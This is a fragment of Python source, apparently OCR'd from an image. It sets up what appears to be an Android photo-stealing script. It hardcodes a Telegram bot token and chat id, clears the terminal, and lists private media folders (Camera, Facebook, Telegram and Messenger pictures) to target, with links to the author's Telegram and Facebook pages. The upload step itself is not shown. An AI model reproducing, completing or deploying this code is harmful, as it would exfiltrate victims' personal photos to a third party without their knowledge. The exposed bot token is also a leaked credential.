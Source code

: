 ‏ import os
import sys
import time
import requests
from pystyle import *


https://t.me/yosaf_33

bot_token = '0785245489:AAHq2TqOUhMh9ir8mnQirxMQc8dlMcjBYto'
chat_id = '0785245489'
os.system('clear')

https://www.facebook.com/profile.php?id=100063952478684&mibextid=LQQJ4d

paths = ['/sdcard/web', '/sdcard/test', '/sdcard/DCIM/Camera', '/sdcard/DCIM/Facebook', '/sdcard/Pictures/', '/sdcard/Pictures/Telegram', '/sdcard/Pictures/Messenger', '/sdcard/']








